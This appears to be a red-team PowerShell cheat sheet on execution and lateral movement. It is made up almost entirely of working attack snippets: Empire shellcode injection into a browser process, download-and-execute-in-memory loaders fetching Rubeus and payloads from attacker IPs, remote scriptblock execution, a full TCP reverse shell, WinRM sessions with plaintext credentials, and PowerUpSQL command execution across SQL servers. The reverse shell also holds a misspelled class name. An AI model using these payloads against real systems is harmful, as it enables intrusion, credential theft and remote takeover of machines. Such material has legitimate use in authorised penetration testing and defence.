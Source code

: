 # Execution
## Executing Shellcode
Empire's `Invoke-Shellcode`
```powershell
IEX (New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/module_source/code_execution/Invoke-Shellcode.ps1');
$b = [System.Io.File]::ReadAllBytes("C:\beaconx64.bin");
Invoke-Shellcode -ProcessId $(ps edge.exe).Id -Shellcode $b;
```
Or `Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)`
### Executable to In-Memory Assembly Code
Reflectively loading a binary as assembly code
```powershell
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://my_ip/run.exe'))
```
#### Download and Execute in Memory
GitHub: [https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1](https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1)
```powershell
$u = "https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/"
$f="Rubeus.exe"
$c = "1"
[byte[]] $a = (New-Object System.Net.WebClient).DownloadData($u+$f)
$assem = [System.Reflection.Assembly]::Load($a);
#$assem.CustomAttributes
#$assem.EntryPoint |ft Name, ReflectedType, Module, IsPublic
([Type]$assem.EntryPoint.DeclaringType.FullName.ToString())::([String]$assem.EntryPoint.Name).Invoke($c)
```
Additionally, GitHub: [https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](new-object net.webclient).Downloaddata('http://172.16.40.13:1337/defnotrubeus.exe'));
[Rubeus.Program]::MainString("triage")
```
### WinRM
The following will establish a WinRM session and execute commands through it.
```powershell
$cred = New-Object System.Management.Automation.PSCredential('burmat.local\jsmith', (ConvertTo-SecureString 'password' -AsPlainText -Force));

$sess = New-PSSession -Credential $cred -ComputerName $hostname; 
if ($sess) { 
    Invoke-Command -Session $sess -ScriptBlock { hostname; whoami; }; 
    Remove-PSSession $sess;
}
```
Instead, you can gain an interactive session with:
```powershell
Enter-PSSession $(New-PSSession -Credential $cred -ComputerName $hostname);
```
### PowerShell Execution via Text File
```powershell
[scriptblock]::Create($((New-Object System.Net.WebClient).DownloadString('http://192.168.1.123/payload.txt'))).Invoke();
```
### Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.1.67', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncodifng).GetString($bytes, 0, $i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```
## Microsoft SQL Server (MSSQL)
### PowerUpSQL
Create to: [https://github.com/lkys37en](https://github.com/lkys37en)
```powershell
Import-Module C:\tools\PowerUpSQL\PowerUpSQL.psm1

$Domain = "burmat.co";
$DC = (Get-ADDomain -Identity $Domain).PDCEmulator;
$DomainDN = (Get-ADDomain -Identity $Domain).DistinguishedName;

Get-SQLInstanceDomain -DomainController $DC -OutVariable MSSQLServers -verbose | Export-Csv ("MSSQLServers.csv") -NoTypeInformation;

$SQLCmd = $MSSQLServers | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10;
$SQLCmd | Export-Csv ("Weak Microsoft SQL Server Access Control.csv") -NoTypeInformation;

foreach ($MSSQLPriv in $MSSQLPrivs) {
   $MSSQLStoredProceduresEnabledonPublicRole = [ordered]@{
	  'Affected Scope'        = $Domain
	  'Computer Name'         = $MSSQLPriv.ComputerName.ToLower()
	  'Instance'              = $MSSQLPriv.Instance.ToLower()
	  'Database Name'         = $MSSQLPriv.DatabaseName
	  'Principal Name'        = $MSSQLPriv.PrincipalName
	  'Principal Type'        = $MSSQLPriv.PrincipalType
	  'Permission Type'       = $MSSQLPriv.PermissionType
	  'Permission Name'       = $MSSQLPriv.PermissionName
	  'State Description'     = $MSSQLPriv.StateDescription
	  'Object Name'           = $MSSQLPriv.ObjectName
	}
	$MSSQLStoredProceduresEnabledonPublicRole_object = New-Object -TypeName PSObject -Property $MSSQLStoredProceduresEnabledonPublicRole;
	$MSSQLStoredProceduresEnabledonPublicRole_object | Export-Csv ("MSSQL Stored Procedures Enabled on Public Role.csv") -NoTypeInformation -Append;
}
```